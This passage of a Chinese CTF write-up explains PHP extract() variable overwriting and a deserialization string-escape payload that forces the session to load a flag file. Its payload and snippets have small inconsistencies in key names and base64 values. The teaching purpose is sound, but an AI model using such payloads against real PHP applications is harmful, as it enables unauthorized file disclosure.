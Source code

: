**extract() 变量覆盖举例：**

根据 extract() 我们可以进行变量覆盖，当我们传入 $\_SESSION["flag"]=123 时，$\_SESSION["user"] 和 $\_SESSION["function"] 全部会消失。只剩下$\_SESSION["flag"]=123。

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
var_dump($_SESSION);
echo "<br/>";
extract($_POST);
var_dump($_SESSION);
?>
```

[![2RUzp4.png](https://z3.ax1x.com/2021/06/10/2RUzp4.png)](https://imgtu.com/i/2RUzp4)

我们可以利用这里来进行传参。

但是在这里直接给 $\_SESSION["img"] 进行变量覆盖是不现实的，因为下方还有：

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

会对我们输入的 $\_SESSION["img"] 进行再次覆盖。

这里就要我们在去利用 filter() 的过滤来造成反序列化字符逃逸。

+ 键逃逸

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mbGFnLnBocA==";}
```

``ZDBnM19mbGFnLnBocA==`` 为 d0g3_flag.php 的base64 加密。让我们来理解一下这个 payload：

```php
$_SESSION['phpflag']=';s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');

var_dump( serialize($_SESSION) );

#原输出
#"a:2:{s:7:"phpflag";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
#经过 filter 过滤后
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

在经过 filter 过滤后，phpflag 就会被替换成空，``s:7:"phpflag";s:48:"`` 就变为了 ``s:7:"";s:48:"`` ，即完成了逃逸。

这里两个键值分别变为了：``";s:48:`` 和 ``img``。这里的 `` s:1:"1";`` 里的值是什么都无所谓，主要是随便构造一个值而已。之后的 ``;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"`` 被丢弃。
